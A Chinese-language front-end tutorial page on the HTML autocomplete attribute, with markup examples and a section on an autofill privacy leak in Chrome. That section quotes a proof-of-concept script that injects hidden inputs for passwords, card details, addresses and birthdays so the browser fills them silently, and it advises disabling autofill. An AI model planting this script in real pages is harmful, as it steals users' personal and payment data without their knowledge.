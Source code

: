 
---
title: 自动填充
linktitle: 自动填充
type: book
commentable: true
---

# AutoComplete | 自动填充

自动填充(Autofill )是个非常重要的特性，它能帮助用户节省很多填写表单的时间，Google 也曾调查得出过结论[users complete forms up to 30% faster](https://developers.google.com/web/updates/2015/06/checkout-faster-with-autofill?hl=en)。我们首先来讨论下自动填充的工作原理，以及如何构建跨浏览器的自动填充表单。

早年各个浏览器之间对于自动填充并没有统一的标准，后来 HTML5 标准中加入了对于`autocomplete`属性的支持，以协调浏览器对于表单域的识别。最初`autocomplete`属性仅支持`on`与`off`两种取值，默认情况下是会启动自动填充功能以方便浏览器会将用户提交过的表单值记录下来以便复用。后续 HTML 标准中允许加入更多的[标识值](https://html.spec.whatwg.org/multipage/forms.html#autofill)，这些标识值会更加精确地告诉浏览器应将哪些记录值对应到哪些表单。譬如我们经常需要在网页上填写地址信息，如果我们希望浏览器能够记录下常用地址信息并且自动补全，那么可以使用如下声明方式：

```html
<textarea
  name="shipping-address"
  autocomplete="shipping street-address"
></textarea>
<input
  type="text"
  name="shipping-city"
  autocomplete="shipping address-level2"
/>
<input
  type="text"
  name="shipping-state"
  autocomplete="shipping address-level1"
/>
<input
  type="text"
  name="shipping-country"
  autocomplete="shipping country-name"
/>
<input
  type="text"
  name="shipping-postal-code"
  autocomplete="shipping postal-code"
/>
```

其他常见的自动填充的使用场景还包括电话号码、邮箱地址、即时通信账户等，完整的自动填充标识声明规范为：

```
[section-](optional) [shipping|billing](optional) [home|work|mobile|fax|pager](optional) [autofill field name]
```

其中`[home|work|mobile|fax|pager]`仅被用于电话、邮箱等场景。而完整的应用场景譬如是填写收货地址的收件人电话时：

```
<label for="foo">Mobile phone for delivery</label>
<input type="text" name="foo" id="foo" autocomplete="section-red shipping mobile tel">
```

最后，我们来看下自动填充在笔者电脑上的现实效果:

## 安全威胁

自动填充是个非常方便地浏览器特性，不过该特性在 Chrome 上也会存在一定的信息泄露的风险。Chrome 最近才修复了某个久负盛名[漏洞](https://yoast.com/autocomplete-security/)。简单而言，黑客能够利用自动填充窃取你并不想提交给该网站的信息，就如下面这个动图：

Github 用户 [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) 使用如下脚本演示了该漏洞：

```js
var autocompletes = [
  "name",
  "honorific-prefix",
  "given-name",
  "additional-name",
  "family-name",
  "honorific-suffix",
  "nickname",
  "username",
  "new-password",
  "current-password",
  "organization-title",
  "organization",
  "street-address",
  "address-line1",
  "address-line2",
  "address-line3",
  "address-level4",
  "address-level3",
  "address-level2",
  "address-level1",
  "country",
  "country-name",
  "postal-code",
  "cc-name",
  "cc-given-name",
  "cc-additional-name",
  "cc-family-name",
  "cc-exp",
  "cc-exp-month",
  "cc-exp-year",
  "cc-csc",
  "cc-type",
  "transaction-currency",
  "transaction-amount",
  "language",
  "bday",
  "bday-day",
  "bday-month",
  "bday-year",
  "sex",
  "url",
  "photo",
  "tel",
  "tel-country-code",
  "tel-national",
  "tel-area-code",
  "tel-local",
  "tel-local-prefix",
  "tel-local-suffix",
  "tel-extension",
  "impp",
];

emailField.addEventListener("focus", function () {
  var wrap = autocompletes.reduce(function (wrapper, field) {
    var input = document.createElement("input");

    // Make them not focussable
    input.tabIndex = -1;
    input.autocomplete = field;

    wrapper.appendChild(input);
    return wrapper;
  }, document.createElement("div"));

  // Hide the wrapper
  wrap.classList.add("hidden");
  form.appendChild(wrap);

  // Inject the autocompletes once
  this.removeEventListener("focus", arguments.callee);
});
```

作者是建议大家关闭 Chrome 的自动填充功能，主要步骤为：

- 进入 Chrome 设置：`chrome://settings/autofill`
- 关闭当前模态窗口
- 反选自动填充选项

    